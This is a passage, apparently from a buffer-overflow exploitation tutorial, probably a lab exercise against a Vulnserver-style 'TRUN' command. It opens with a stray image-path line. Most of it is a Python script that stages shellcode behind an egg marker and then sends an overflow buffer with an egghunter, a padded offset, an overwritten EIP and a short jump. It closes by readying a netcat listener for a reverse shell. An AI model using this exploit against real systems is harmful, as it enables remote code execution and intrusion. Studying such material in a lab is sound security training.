 ```python

injection_prefix = b"TRUN "
egg = b"c0de" * 2

inject_into_memory = b"".join([
    injection_prefix,
    egg,
    shellcode
])

payload = b"".join([
    prefix,
    egghunter,
    b"A" * (offset - len(egghunter)),
    new_eip,
    short_jump,
    b"C" *  (crash_length - len(prefix) - offset - len(new_eip) - len(short_jump))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Injecting into memory...")
        s.send(inject_into_memory + b"\r\n")
    except:
        print("Could not connect.")

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Let's set up a netcat lister and hope to catch a reverse shell.

![](images/rev_shell.png)